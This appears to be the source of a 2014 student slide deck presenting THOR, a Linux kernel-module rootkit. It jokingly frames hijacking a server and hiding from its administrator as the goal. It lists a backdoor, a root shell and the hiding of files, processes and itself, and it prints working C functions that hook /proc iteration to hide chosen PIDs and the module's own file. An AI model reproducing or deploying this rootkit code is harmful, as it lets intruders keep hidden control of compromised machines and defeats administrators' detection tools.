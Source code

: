 ```yaml
---
title: 'THOR'
subtitle: 'The ~~Horrific~~ Hopefully Omnipotent Rootkit'
author: [
    Alex Hirsch,
    FraJo Haider,
]
date: 2014-12-01
---
```


## The Linux Kernel

\centerline{\includegraphics[height=170px]{gfx/kernel.png}}
\tiny{source: \url{http://sysplay.in/blog/linux-device-drivers/2013/02}}

## Internals

\centerline{\includegraphics[height=170px]{gfx/kernel_map.png}}
\tiny{source \url{http://en.wikipedia.org/wiki/Linux_kernel}}

## Dafuq?

\centerline{\includegraphics[height=180px]{gfx/dafuq.jpg}}

## Okay Okay ... Imagine

- you are a student doing some ... ehm .. *research*
- you managed to hijack a server, acquired root privileges and now what?

- you could fool around, delete files, load some torrents, because `<INSERT
  REASON>`
- use the server as proxy to do even more ~~evil~~ *research oriented* stuff

But sooner or later the admin may recognize that the server has been
compromised, and lock you out.

## Solution: **Rootkit**

\centerline{\includegraphics[height=180px]{gfx/rootkit.jpg}}

## Main Usage

- provides backdoor
- hides suspicious activities
    - open ports
    - suspicious processes
    - files
- **hides its own presences**

## Why Kernel Module

- **more power**, kernel space > user space

In general system administration tools invoke *system calls* to retrieve
information directly from the kernel. Hence compromising the *root of
information* by overwriting certain system calls will render most
administration tools useless.

## Kernel Module Basics

- can be loaded / unloaded dynamically using `insmod` / `rmmod` as root
- can be loaded at boot
- *Linux Headers* provide an API
- communication via *files* (usually located in `/proc`)

## Problems

\centerline{\includegraphics[height=180px]{gfx/problems.jpg}}

## Problems

- few example code for up2date kernels
- Headers do not export enough, hence complete source is required
- hijacking systemcalls is not really encouraged by the developers (race
  conditions / undefined behaviour)
    - *yeah, no shit sherlock*

## Current State

- communication using file in `/proc`
- basic hiding of files by name
- basic hiding of processes by PID
- root shell
- hiding of sockets ... work in progress
- working in 3.14 (Arch LTS) and 3.17 (Arch Current)

## `prochidder_init()`

```{.c .numberLines}
static int __init prochidder_init(void)
{
    // insert our modified iterate for /proc
    procroot = procfile->parent;
    proc_fops = (struct file_operations*)procroot->proc_fops;

    orig_proc_iterate = proc_fops->iterate;

    set_addr_rw(proc_fops);

    proc_fops->iterate = thor_proc_iterate;

    set_addr_ro(proc_fops);

    INIT_LIST_HEAD(&pid_list.list);

    return 0;
}
```

## `proc_iterate()`

```{.c .numberLines}
static int thor_proc_iterate(struct file *file, struct dir_context *ctx)
{
    int ret;
    filldir_t *ctx_actor;

    // capture original filldir function
    orig_proc_filldir = ctx->actor;

    // cast away const from ctx->actor
    ctx_actor = (filldir_t*)(&ctx->actor);

    // store our filldir in ctx->actor
    *ctx_actor = thor_proc_filldir;
    ret = orig_proc_iterate(file, ctx);

    // restore original filldir
    *ctx_actor = orig_proc_filldir;

    return ret;
}
```

## `proc_filldir()`

```{.c .numberLines}
static int thor_proc_filldir(void *buf, const char *name, int namelen,
        loff_t offset, u64 ino, unsigned d_type)
{
    struct _pid_list *tmp;

    // hide specified PIDs
    list_for_each_entry(tmp, &(pid_list.list), list)
    {
        if(0 == strcmp(name, tmp->name)) return 0;
    }

    // hide thor itself
    if (0 == strcmp(name, THOR_PROCFILE)) return 0;

    return orig_proc_filldir(buf, name, namelen, offset, ino, d_type);
}
```

## Take a look

Github: <http://git.io/ZwNdCQ>

\centerline{\includegraphics[height=160px]{gfx/qrcode.png}}
